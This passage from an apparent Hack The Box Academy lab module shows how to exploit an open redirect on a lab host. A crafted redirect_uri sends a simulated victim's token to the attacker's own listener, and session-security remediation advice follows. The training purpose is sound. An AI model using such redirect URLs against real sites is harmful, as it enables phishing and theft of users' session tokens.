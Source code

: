 Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request captured also includes the token!

![image](https://academy.hackthebox.com/storage/modules/153/71.png)

Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.

The following section will provide some prevention advice related to the covered vulnerabilities.



## Remediation Advice

***

Even during bug bounty hunting, it is essential to share remediation advice. Knowing how to remediate a vulnerability does help not only the client but also ourselves since we may quickly suspect the existence of a vulnerability by noticing the lack of a related security measure.

So dedicate some time to studying how the vulnerabilities you are aware of can be remediated, as this can make you even more competitive.

***

### Remediating Session Hijacking

It is pretty challenging to counter session hijacking since a valid session identifier grants access to an application by design. User session monitoring/anomaly detection solutions can detect session hijacking. It is a safer bet to counter session hijacking by trying to eliminate all vulnerabilities covered in this module.

***

### Remediating Session Fixation

Ideally, session fixation can be remediated by generating a new session identifier upon an authenticated operation. Simply invalidating any pre-login session identifier and generating a new one post-login should be enough.
